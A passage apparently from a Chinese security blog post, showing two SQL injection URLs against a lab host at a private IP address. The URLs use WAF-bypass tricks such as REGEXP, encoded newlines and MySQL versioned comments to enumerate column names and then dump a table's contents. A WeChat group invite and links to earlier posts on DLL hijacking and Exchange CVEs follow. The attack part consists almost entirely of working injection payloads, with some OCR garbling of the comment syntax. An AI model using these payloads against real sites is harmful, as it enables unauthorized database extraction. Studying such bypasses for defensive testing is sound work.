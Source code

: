   

## 获取表字段

http://192.168.111.16/index.php?id=-1 REGEXP "[…%0a%23]" / _%2a%%2f_ /union/
_%2f%2f_ // _!50144select_ // _%2f%2f_ /1,group_concat(column_name),3  %0a
from information_schema.columns where table_name="newss"

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222174221.png)

## 获取数据

http://192.168.111.16/index.php?id=-1 REGEXP "[…%0a%23]" / _%2a%%2f_ /union/
_%2f%2f_ // _!50144select_ // _%2f%2f_ /1,content,3  %0a  from newss

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222174222.png)

加下方微信，拉你一起进群学习

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230222174223.png)

往期推荐

[

软件调试详解

](https://mp.weixin.qq.com/s?__biz=Mzg2NDY2MTQ1OQ==&mid=2247495570&idx=1&sn=1eaf3a28aa19b1c676bc740359f79124&chksm=ce67552ef910dc38888ad1440e924455e61339fbcc38a805b9ce14b946b58d955d0826d2a2e5&scene=21#wechat_redirect)[

初探windows异常处理

](https://mp.weixin.qq.com/s?__biz=Mzg2NDY2MTQ1OQ==&mid=2247495224&idx=1&sn=7052bb8495ba625afffb53e1cb67182b&chksm=ce675484f910dd922edf20ac385d83910d1e4a4343e11bb9a926bce1834f4d18cda5df55449a&scene=21#wechat_redirect)[

浅谈hook攻防

](https://mp.weixin.qq.com/s?__biz=Mzg2NDY2MTQ1OQ==&mid=2247494646&idx=1&sn=18642da97929e4e6cb7bb46627a77883&chksm=ce67514af910d85c5c74b9e4d883ed423f6c07253836aa47d77fccdfa8931e77e8c9d236dc93&scene=21#wechat_redirect)[

无处不在的dll劫持

](https://mp.weixin.qq.com/s?__biz=Mzg2NDY2MTQ1OQ==&mid=2247494314&idx=1&sn=41e5f267a2640c9d461f2f2716b51660&chksm=ce675016f910d9007d30eb432a61ec64e835d7095c1260cccc0786970000edc7788c8bb18ba8&scene=21#wechat_redirect)[

CVE-2021–26855与CVE-2021–27065分析及复现

](https://mp.weixin.qq.com/s?__biz=Mzg2NDY2MTQ1OQ==&mid=2247494271&idx=1&sn=494c5be0aff6e7636457abf50042045f&chksm=ce6750c3f910d9d5818a5b54064058292fda5639fef69f816c6a6ec2b4448c0a4fc781192158&scene=21#wechat_redirect)[

Windows环境下的调试器探究
